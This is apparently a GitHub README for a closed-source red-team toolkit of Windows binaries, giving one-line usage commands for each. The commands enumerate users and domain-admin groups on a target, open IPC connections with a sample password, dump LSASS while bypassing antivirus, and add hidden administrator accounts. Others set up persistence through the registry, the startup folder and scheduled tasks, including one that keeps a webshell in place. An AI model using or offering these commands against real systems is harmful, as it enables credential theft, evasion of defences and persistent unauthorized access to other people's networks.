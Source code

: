 # RedTeamTools

###### Tools developed during the personal learning process，if you find some problem I hope you can give me a issue let me know how to become better，thanks

###### Tools are not open source, use them and cherish them

## 01Get Target User

```
new1.exe \\192.168.3.144
```

## 02Get Target Local Administrators Group

```
new2.exe administrators \\192.168.3.144
```

## 03Get Target All Local Group

```
new3.exe \\192.168.3.144
```

## 04Get Target Goup Member

```
new4.exe "domain admins" \\192.168.3.144
```

## 05Make The IPC Connect

```
new5.exe \\192.168.3.144 rootkit.org\sqladmin Admin12345
```

## 06Delete The IPC Connect

```
new6.exe \\192.168.3.144
```

## 07Get The Internet Session To Help Find The Domain Manager

```
new7.exe \\192.168.3.144
```

## 08Get Login User To Help Find The Domain Manager

```
new8.exe \\192.168.3.144
```

## 09Dump Lsass BypassAV

```
new9-1.exe
```

## 10Fast Information Collection

```
You can use in the workgroup OR domain computer
new10_domain.exe > 1.txt
new10_workgroup.exe > 2.txt
```

## 11Add Admin User BypassAV

```
new11.exe user pass
11.vbs #direct to use
easy11_direct.exe #direct to use   admininfo:support_win2019$/NoBase64==
easy11.dll  #rundll32 easy11.dll admin  admininfo:DefaultAccount$/NoBase64==
```

## 12Write The Registry

```
12.exe
```

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/12-1.png)

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/12-2.png)

## 13Write The Start Dir

```
13.exe
Make sure your tar exe in the C:\Windows\Temp\Updating.exe
```

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/13.png)

## 14Taskplan To Exec Your EXE

```
14.exe c:\123\321.exe A
Very to use，like to this
```

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/14-1.png)

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/14-2.png)

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/14-3.png)

## 15Taskplan To Backup Your WEBSHELL

```
15x32.exe C:\phpstudyWWW\shell.php A
Very to use，like to this
```

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Add%20A%20Scheduled%20Task%20BypassAV%EF%BC%88WEBSHELL%EF%BC%89/image-20210920145033771.png)

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Add%20A%20Scheduled%20Task%20BypassAV%EF%BC%88WEBSHELL%EF%BC%89/image-20210920145309610.png)

